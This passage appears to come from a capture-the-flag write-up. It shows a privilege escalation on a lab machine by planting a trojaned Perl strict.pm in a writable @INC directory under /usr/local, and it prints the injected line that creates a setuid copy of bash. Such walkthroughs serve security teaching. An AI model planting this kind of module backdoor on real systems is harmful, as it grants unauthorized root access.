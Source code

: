 If I look at those directories in more detail, I’ll see five are only modifiable by root, but the first two don’t exist:

```

jkr@writeup:/usr/local/share$ perl -e 'print join("\n",@INC)' | while read dir; do ls -ld $dir; done
drwxr-xr-x 4 root root 4096 Apr 19 04:21 /etc/perl
ls: cannot access '/usr/local/lib/x86_64-linux-gnu/perl/5.24.1': No such file or directory
ls: cannot access '/usr/local/share/perl/5.24.1': No such file or directory
drwxr-xr-x 11 root root 4096 Apr 19 04:21 /usr/lib/x86_64-linux-gnu/perl5/5.24
drwxr-xr-x 16 root root 4096 Apr 19 04:21 /usr/share/perl5
lrwxrwxrwx 1 root root 6 Nov 29  2018 /usr/lib/x86_64-linux-gnu/perl/5.24 -> 5.24.1
lrwxrwxrwx 1 root root 6 Nov 29  2018 /usr/share/perl/5.24 -> 5.24.1

```

And, those two are in `/usr/local` where staff has write. I’ll create `/usr/local/lib/x86_64-linux-gnu/perl/5.24.1`, and copy one of the modules from above into it:

```

jkr@writeup:~$ mkdir -p /usr/local/lib/x86_64-linux-gnu/perl/5.24.1
jkr@writeup:~$ cp /usr/share/perl/5.24/strict.pm /usr/local/lib/x86_64-linux-gnu/perl/5.24.1/

```

Now I’ll edit the module to add some code just inside the `BEGIN`:

```

package strict;

$strict::VERSION = "1.11";

my ( %bitmask, %explicit_bitmask );

BEGIN {
    # Verify that we're called correctly so that strictures will work.
    # Can't use Carp, since Carp uses us!
    # see also warnings.pm.
    system "cp /bin/bash /bin/0xdf; chmod u+s /bin/0xdf";
    die sprintf "Incorrect use of pragma '%s' at %s line %d.\n", __PACKAGE__, +(caller)[1,2]
        if __FILE__ !~ ( '(?x) \b     '.__PACKAGE__.'  \.pmc? \z' )
        && __FILE__ =~ ( '(?x) \b (?i:'.__PACKAGE__.') \.pmc? \z' );
...[snip]...

```

The only difference is my additional line:

```

jkr@writeup:~$ diff /usr/local/lib/x86_64-linux-gnu/perl/5.24.1/strict.pm /usr/share/perl/5.24/strict.pm
11d10
<     system "cp /bin/bash /bin/0xdf; chmod u+s /bin/0xdf";

```
